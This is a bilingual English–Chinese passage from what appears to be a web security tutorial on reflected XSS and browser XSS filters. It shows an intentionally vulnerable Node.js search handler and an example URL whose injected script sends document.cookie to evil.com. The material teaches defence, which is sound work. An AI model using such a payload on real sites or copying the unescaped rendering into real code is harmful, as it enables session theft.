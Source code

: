 ### 启用 XSS 过滤 ###

> In a reflected cross-site scripting attack (reflected XSS), an attacker injects malicious JavaScript code into an HTTP request, with the injected code “reflected” in the response and executed by the browser rendering the response, enabling the malicious code to operate within a trusted context, accessing potentially confidential information such as session cookies. Unfortunately, XSS is a pretty common web app attack, and a surprisingly effective one!

在反射型跨站脚本攻击（reflected XSS）中，攻击者将恶意 JavaScript 代码注入到 HTTP 请求，注入的代码「映射」到响应中，并由浏览器执行，从而使恶意代码在可信任的上下文中执行，访问诸如会话 cookie 的潜在机密信息。不幸的是，XSS 是一个很常见的网络应用程序，且令人惊讶地有效！

>To understand a reflected XSS attack, consider the Node.js code below, rendering mywebapp.com, a mock and intentionally simple web app that renders search results alongside the search term requested by the user:

为了了解反射型 XSS 攻击，参考以下 Node.js 代码，渲染 `mywebapp.com` 一个模拟并有意简单的 web 应用程序，它将搜索结果以及用户请求的搜索关键词一起呈现：

```javascript
function handleRequest(req, res) {
    res.writeHead(200);

    // Get the search term
    const parsedUrl = require('url').parse(req.url);
    const searchTerm = decodeURI(parsedUrl.query);
    const resultSet = search(searchTerm);

    // Render the document
    res.end(
        "<html>" +
            "<body>" +
                "<p>You searched for: " + searchTerm + "</p>" +
                // Search results rendering goes here…
            "</body>" +
        "</html>");
};
```

>Now, consider how will the web app above handle a URL constructed with malicious executable code embedded within the URL, such as this:

现在，来考虑一下上面的 web 应用程序会如何处理在 URL 中嵌入的恶意可执行代码，例如：

```
https://mywebapp.com/search?</p><script>window.location=“http://evil.com?cookie=”+document.cookie</script>
```

> As you may realize, this URL will make the browser run the injected script and send the user’s cookies, potentially including confidential session cookies, to evil.com!

你可能意识到了，这个 URL 会让浏览器执行注入的脚本，并发送用户的 cookies，极有可能包含机密的会话 cookie，至 evil.com。

> To help protect users against reflective XSS attacks, some browsers have implemented protection mechanisms. These mechanisms try to identify these attacks by looking for matching code patterns in the HTTP request and response. Internet Explorer was the first browser to introduce such a mechanism with its XSS filter, introduced in Internet Explorer 8 back in 2008, and WebKit later introduced XSS Auditor, available today in Chrome and Safari. (Firefox has no similar mechanism built in, but users can use add-ons to gain this functionality.) These various protection mechanisms are not perfect: They may fail to detect a real XSS attack (a false negative), and in other cases may block legitimate code (a false positive). Due to the latter, browsers allow users to disable the XSS filter via the settings. Unfortunately, this is typically a global setting, which turns off this security feature completely for all web apps loaded by the browser.
